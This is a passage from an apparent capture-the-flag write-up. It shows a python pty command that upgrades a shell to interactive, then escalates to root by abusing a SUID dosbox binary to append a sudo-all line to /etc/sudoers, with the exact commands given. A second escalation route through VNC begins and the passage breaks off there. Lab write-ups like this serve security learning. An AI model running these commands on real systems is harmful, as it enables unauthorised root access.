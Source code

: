 Let’s interactive shell using python:

Identify python version : 

```bash
which python # or python --version:
```

![image.png](image%2018.png)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png](image%2019.png)

## Privilege Escalation

### 1st way

We have seen dosbox SUID binary, there let’s check it out in [GTFOBins](https://gtfobins.github.io/#)

> Note that the name of the written file in the following example will be `FILE_TO_`. Also note that `echo` terminates the string with a DOS-style line terminator (`\r\n`), if that’s a problem and your scenario allows it, you can create the file outside `dosbox`, then use `copy` to do the actual write. 
{: .prompt-warning }

We can abuse `/etc/sudoers` file without problem because it is not dependent on correct and strict syntax as `/etc/passwd`, but we cannot do that for `/etc/passwd` as there each line should be terminated just with a newline character(`\n`) and nothing else.

```bash
LFILE='/etc/sudoers'
/usr/bin/dosbox -c 'mount c /' -c "echo commander    ALL=(ALL:ALL) ALL >c:$LFILE" -c exit
```

![image.png](image%2020.png)

![image.png](image%2021.png)

Now we are root!

### 2nd way

We should have some kind of GUI to open dosbox as it does not open in netcat shell.

![image.png](image%2022.png)

It seems VNC running on the host, let’s check it using 

```bash
ss -ntlpu
```
